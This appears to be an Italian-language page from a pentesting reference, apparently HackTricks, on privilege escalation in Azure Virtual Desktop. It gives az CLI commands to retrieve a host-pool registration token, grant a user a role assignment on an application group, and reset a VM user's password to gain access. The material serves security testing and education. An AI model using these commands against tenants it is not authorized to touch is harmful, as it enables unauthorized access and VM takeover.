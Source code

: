 # Az - Virtual Desktop Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Virtual Desktop Privesc

### `Microsoft.DesktopVirtualization/hostPools/retrieveRegistrationToken/action`
Puoi recuperare il token di registrazione utilizzato per registrare macchine virtuali all'interno di un pool di host.
```bash
az desktopvirtualization hostpool retrieve-registration-token -n testhostpool -g Resource_Group_1
```
### ("Microsoft.Authorization/roleAssignments/read", "Microsoft.Authorization/roleAssignments/write") && ("Microsoft.Compute/virtualMachines/read","Microsoft.Compute/virtualMachines/write","Microsoft.Compute/virtualMachines/extensions/read","Microsoft.Compute/virtualMachines/extensions/write")

Con queste autorizzazioni puoi aggiungere un'assegnazione utente al gruppo Applicazione, che è necessaria per accedere alla macchina virtuale del desktop virtuale.
```bash
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP_NAME>/providers/Microsoft.DesktopVirtualization/applicationGroups/<APP_GROUP_NAME>/providers/Microsoft.Authorization/roleAssignments/<NEW_ROLE_ASSIGNMENT_GUID>?api-version=2022-04-01" \
--body '{
"properties": {
"roleDefinitionId": "/subscriptions/<SUBSCRIPTION_ID>/providers/Microsoft.Authorization/roleDefinitions/1d18fff3-a72a-46b5-b4a9-0b38a3cd7e63",
"principalId": "<USER_OBJECT_ID>"
}
}'
```
Inoltre, puoi cambiare l'utente e la password della macchina virtuale per accedervi.
```bash
az vm user update \
--resource-group <RESOURCE_GROUP_NAME> \
--name <VM_NAME> \
--username <USERNAME> \
--password <NEW_PASSWORD>
```
{{#include ../../../banners/hacktricks-training.md}}
